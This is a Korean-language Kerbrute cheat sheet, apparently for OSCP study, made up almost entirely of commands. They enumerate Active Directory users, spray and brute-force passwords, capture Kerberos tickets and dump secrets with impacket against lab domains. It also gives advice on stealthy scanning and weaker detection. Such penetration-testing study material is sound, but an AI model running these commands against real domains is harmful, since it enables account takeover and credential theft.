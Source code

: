 # Kerbrute

## 설치

```bash
# 최신 버전 확인 후 다운로드
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
make linux

# 또는 직접 실행 가능한 바이너리 (최신)
wget $(curl -s https://api.github.com/repos/ropnop/kerbrute/releases/latest | grep -o "https.*kerbrute_linux_amd64")
chmod +x kerbrute_linux_amd64
```

## 사용법

### 1. UserEnum - 계정 존재 여부 확인

```bash
# 1) 사용자 목록으로 확인 (가장 많이 쓰는 형식)
# uerenum -> 사용자 존재여부를 확인할 때 사용하는 고정 옵션
./kerbrute userenum --dc 10.10.233.27 -d spookysec.local -o found_users.txt /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# 2) 빠른 확인 (내장 워드리스트)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local /opt/useful/SecLists/Usernames/Names/names.txt

# 3) 스레드 조정 - 빠른 스캔 (더 많은 요청)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 80 users.txt

# 4) 스레드 줄이기 - 스텔스 스캔 (덜 눈에 띔)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 1 --delay 500 users.txt
```

❗ **결과 해석**: `[+]` = 계정 존재, `[-]` = 없음, `[!]` = Pre-Auth 필요 없음(ASREProast 가능)

### 2. PasswordSpray - 패스워드 스프레이 공격

```bash
# 1) 기본 스프레이 (가장 많이 쓰는 형식)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Company2023!'

# 2) 계정 잠금 방지 (안전모드)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local --safe -t 1 found_users.txt 'Spring2023!'

# 3) 흔한 기업 비밀번호 예시
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Password123!'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Welcome1'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Autumn2023!'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'CompanyName123'

# 4) 성공한 계정 저장 (결과 파일)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local -o valid_creds.txt found_users.txt 'Password123!'
```

❗ **이점**: 일반 로그인(4625)이 아닌 TGT요청(4768)으로 기록 → 계정 잠금 정책 우회 용이

### 3. Bruteforce - 특정 사용자 패스워드 공격

```bash
# 1) 표준 브루트포스 (가장 많이 쓰는 형식) - ⚠️ 계정 잠금 위험!
./kerbrute bruteforce --dc 10.10.10.175 -d megacorp.local /usr/share/wordlists/rockyou.txt administrator

# 2) 안전 모드 (계정 잠금 방지 - 매우 중요)
./kerbrute bruteforce --safe -t 1 --delay 1000 --dc 10.10.10.175 -d megacorp.local common_passwords.txt svc_account

# 3) 소규모 워드리스트로 특정 계정 공략 (추천)
cat << EOF > likely_passwords.txt
Spring2023!
Summer2023!
Company123!
Password123
Welcome123
P@ssw0rd
EOF
./kerbrute bruteforce --dc 10.10.10.175 -d megacorp.local likely_passwords.txt administrator
```

❗ **주의**: 브루트포스는 계정 잠금 정책 트리거 가능성 높음 → 소규모/정확한 리스트 사용

### 4. Combo - 사용자:패스워드 조합 시도

```bash
# 1) 기본 콤보 공격 (가장 많이 쓰는 형식)
./kerbrute combo --dc 10.10.10.175 -d megacorp.local combos.txt

# 2) 결과 저장 (성공한 계정 기록)
./kerbrute combo --dc 10.10.10.175 -d megacorp.local -o found_accounts.txt combos.txt

# 3) 콤보 파일 생성 예시
cat << EOF > combos.txt
administrator:Password123!
administrator:Admin123
svc_backup:Backup2023!
svc_account:Svc123!
helpdesk:Welcome123
john.doe:Password123
jane.smith:Winter2023!
EOF

# 4) 다른 도구로 콤보 파일 생성
awk '{print $1":Password123!"}' users.txt > combos.txt
awk '{print $1":Summer2023!"}' users.txt >> combos.txt
```

### 5. 실전 활용 예시

```bash
# 1) 요청한 예시 명령 - 특정 사용자리스트로 계정 확인 (최신 문법)
./kerbrute userenum --dc 10.10.10.175 --domain spookysec.local userlist.txt

# 2) 획득한 계정으로 인증 및 티켓 저장
./kerbrute -d spookysec.local --dc 10.10.233.27 -t 1 --user svc_backup --password backup2023 --tgt /tmp/svc_backup.ccache

# 3) TGT 저장 후 환경변수 설정
export KRB5CCNAME=/tmp/svc_backup.ccache

# 4) 이후 다른 도구와 연계 (impacket 등)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -k -dc-ip 10.10.10.175 spookysec.local/svc_backup@DC01.spookysec.local
```

## 핵심 옵션

| 옵션            | 설명                         | 예시                 |
| --------------- | ---------------------------- | -------------------- |
| `-d, --domain`  | 타겟 도메인 (필수)           | `-d megacorp.local`  |
| `--dc`          | 도메인 컨트롤러 IP           | `--dc 10.10.10.175`  |
| `-o, --output`  | 결과 파일 저장               | `-o found_users.txt` |
| `--safe`        | 계정 잠금 방지 (딜레이 추가) | `--safe`             |
| `-t, --threads` | 동시 요청 수 (기본:10)       | `-t 1` 또는 `-t 50`  |
| `--delay`       | 요청 사이 지연 시간(ms)      | `--delay 1000`       |
| `-v`            | 상세 출력 (디버깅)           | `-v`                 |
| `--debug`       | 매우 상세한 정보 표시        | `--debug`            |

## 완전한 공격 시나리오

### 1. 초기 정찰 - 빠른 계정 발견

```bash
# 1) 초기 빠른 스캔 - 기본 계정
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 50 /usr/share/seclists/Usernames/top-usernames-shortlist.txt

# 2) 이메일 주소로부터 사용자명 추출
cat << EOF > emails.txt
john.doe@megacorp.local
jane.smith@megacorp.local
admin@megacorp.local
support@megacorp.local
EOF
cut -d "@" -f1 emails.txt > users.txt

# 3) 확장 스캔 - 더 많은 계정 찾기
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 30 -o found_users.txt /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

### 2. 전략적 패스워드 공격

```bash
# 1) 서비스 계정만 추출 (권한 높을 가능성)
grep "^svc_\|^service\|^admin" found_users.txt > service_accounts.txt

# 2) 계절+년도 비밀번호 스프레이 (가장 흔한 패턴)
for season in Spring Summer Fall Autumn Winter; do
    for year in 2022 2023; do
        echo "시도: $season$year!"
        ./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local --safe -t 1 service_accounts.txt "$season$year!"
    done
done

# 3) 회사명 + 숫자 조합 (매우 효과적)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local service_accounts.txt "Megacorp123!"
```

### 3. 획득한 인증으로 추가 공격

```bash
# 1) 성공한 계정 확인
cat valid_creds.txt

# 2) 비밀번호 재사용 공격 (발견된 계정 비밀번호로 다른 계정 시도)
found_password=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | awk '{print $4}')
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt "$found_password" -o more_accounts.txt

# 3) Kerberos 티켓 획득 및 활용
user=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | cut -d " " -f 3 | cut -d "@" -f 1)
pass=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | awk '{print $4}')

# TGT 요청해서 추가 공격 (이후 Kerberoasting, AS-REP Roasting 등)
export KRB5CCNAME=/tmp/$user.ccache
getTGT.py -dc-ip 10.10.10.175 megacorp.local/$user:"$pass"
```

## OSCP 시험 주의사항

❗ **중요 팁**:

- 계정 잠금 정책은 보통 5-10회 실패 시 30분 잠김 → `--safe` + `-t 1` + `--delay 1000` 사용
- 비밀번호 패턴: `회사명+123!`, `계절+년도!`, `Welcome1` 시도 (가장 성공률 높음)
- 발견된 계정은 impacket의 GetUserSPNs.py, secretsdump.py로 추가 공격
- 이벤트 ID 4768(TGT 요청)로 로그 남지만 일반 로그인보다 덜 탐지됨
